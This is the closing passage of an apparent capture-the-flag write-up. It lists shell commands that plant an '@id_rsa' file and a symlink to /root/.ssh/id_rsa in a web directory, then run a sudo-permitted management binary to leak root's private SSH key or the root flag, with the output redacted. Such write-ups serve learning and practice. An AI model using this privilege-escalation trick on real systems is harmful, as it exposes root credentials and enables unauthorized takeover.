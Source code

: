 ```bash
cd /var/www/html
```
```bash
touch @id_rsa  # or "@root.txt"
```
```bash
ln -s /root/.ssh/id_rsa id_rsa or link to the root flag
```

```bash
sudo /usr/bin/usage_management
```
chose option 1 when prompted

--> REDACTED

Congratulations, you have completed the challenge, i had a lot of fun doing it hope you did as well. <br>
If you wanna see more write ups you can check the WriteUps Directory in this GitHub repo. <br>
Catch you in the next CTF 😃 <br>
